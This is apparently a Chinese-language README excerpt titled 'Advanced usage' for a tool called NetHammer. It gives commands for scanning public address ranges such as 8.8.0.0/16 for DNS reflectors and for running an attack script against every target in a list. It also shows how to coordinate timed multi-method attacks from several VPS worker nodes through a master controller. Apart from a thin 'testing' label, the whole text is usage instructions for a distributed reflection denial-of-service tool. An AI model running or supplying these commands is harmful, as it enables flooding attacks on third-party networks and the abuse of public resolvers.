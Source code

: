 ### 高级使用

#### 🎛️ 专业控制器

```bash
# 启动交互式控制器
python3 NetHammer_Master_Controller.py

# 自动化测试模式 (使用测试IP)
python3 NetHammer_Master_Controller.py --target 192.168.1.100 --auto

# 指定配置文件
python3 NetHammer_Master_Controller.py --config custom_config.json
```

#### 🔧 自定义配置

```bash
# 创建自定义反射器列表
python3 create_reflector_database.py --custom

# 扫描并发现新的反射器
python3 -c "
from NetHammer_Master_Controller import NetHammerController
controller = NetHammerController()
controller.scan_reflectors('dns', '8.8.0.0/16')
"

# 批量测试多个目标
cat targets.txt | while read target; do
    python3 quick_attack.py $target -m multi -t 300
    sleep 60
done
```

#### 🌐 分布式测试

```bash
# 主控节点
python3 NetHammer_Master_Controller.py --mode master --port 8080

# 工作节点 (多台VPS)
python3 NetHammer_Master_Controller.py --mode worker --master 192.168.1.100:8080

# 协调攻击 (示例 - 需要配置实际的主控服务器)
python3 -c "
import requests
# 注意: 将主控服务器IP替换为您的实际IP
requests.post('http://主控服务器IP:8080/attack', json={
    'target': '192.168.1.200',  # 您的测试目标IP
    'method': 'multi',
    'duration': 1800,
    'workers': ['worker1', 'worker2', 'worker3']
})
"
```
